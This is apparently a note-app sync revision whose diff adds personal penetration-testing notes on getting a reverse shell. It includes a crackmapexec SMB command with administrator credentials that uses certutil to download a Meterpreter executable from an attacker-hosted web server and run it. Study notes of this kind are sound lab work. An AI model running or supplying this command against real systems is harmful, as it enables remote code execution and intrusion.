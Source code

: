 id: 09e699346b9f4cf09e464720d7f05d59
parent_id: ed44b2d8abe84a16ad544cccd02c1495
item_type: 1
item_id: 675162c6268c4652933f50981ec28893
item_updated_time: 1643889989446
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"3d1f6)\\\n\\\n\"],[1,\"# Execute System Command (To get Reverse Shell)\\\n\\\n![a7672b06a15243b1861a3e34750b3da2.png](:/1ed264f0296c44348176e9a7071b686d)\\\n\\\nE.g. we have a payload and have opened a web server, and we have setup a multi/handler to get the reverse shell\\\n\\\n> crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@wsw0rd1' -x 'certutil -urlcache -f http://192.168.1.2:8088/meterpreter\\\\_shell.exe mterpreter\\\\_shell.exe && cmd /c meterpreter_shell.exe'\\\n\\\n![0b7da67312474b101094faa914a94067.png](:/df955198c3f448028aa960aa6bc61bae)\\\n\\\n\"],[0,\"asd\"]],\"start1\":2124,\"start2\":2124,\"length1\":11,\"length2\":522}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-03T12:11:31.843Z
created_time: 2022-02-03T12:11:31.843Z
type_: 13
